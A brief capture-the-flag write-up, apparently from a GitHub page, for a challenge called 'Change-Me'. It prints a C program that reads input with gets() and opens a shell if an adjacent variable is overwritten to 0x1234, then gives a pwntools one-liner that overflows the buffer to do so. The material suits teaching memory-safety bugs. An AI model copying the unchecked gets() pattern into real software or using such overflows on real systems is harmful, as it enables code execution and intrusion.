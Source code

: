 # Change-Me:
* given source code:

```
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

int main()
{
	setvbuf(stdin,NULL,2,0);
	setvbuf(stdout,NULL,2,0);
	int Overwrite_Me=0;
	char buf[32];
	gets(buf);
	if(Overwrite_Me==0x1234)
	{
		execve("/bin/sh",NULL,NULL);	
		exit(0);	
	}
	else
	{
		puts("Sorry folks! ,You still have to work your way!");
	}
	return 0;
}
```
* Overflowing buffer so that buf = 0x1234.

```
python -c "from pwn import *; print('A'*32 + p32(0x1234))" | ./Change_Me.chall
``
